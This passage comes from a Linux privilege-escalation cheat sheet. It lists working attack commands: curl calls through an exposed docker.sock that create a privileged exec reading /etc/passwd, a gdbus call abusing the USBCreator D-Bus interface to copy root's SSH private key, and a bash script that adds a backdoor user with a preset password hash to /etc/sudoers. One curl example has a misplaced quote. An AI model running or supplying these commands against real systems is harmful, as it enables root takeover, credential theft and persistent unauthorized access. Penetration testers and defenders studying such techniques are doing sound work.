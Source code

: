 ### List all containers

```bash
curl -ik --unix-socket /var/run/docker.sock http://<docker_host>:PORT/containers/json
```

### Create an exec

```bash
curl -ik -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http://<docker_host>:PORT/containers/<container_id>/exec
```

### Start the exec

```bash
curl -ik -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" --data-binary '{"Detach": false,"Tty": true} http://<docker_host>:PORT/exec/<exec_id>/start' 
```

* [https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

# USBCreator D-Bus

A vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the **sudoer group to bypass the password** security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – **without supplying a password.**

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /id_rsa true
```

* [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

# Executing files with root

## Adding a new SUDOER user (Bash)

We can create a new user and add it to the sudoers file:

```bash
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
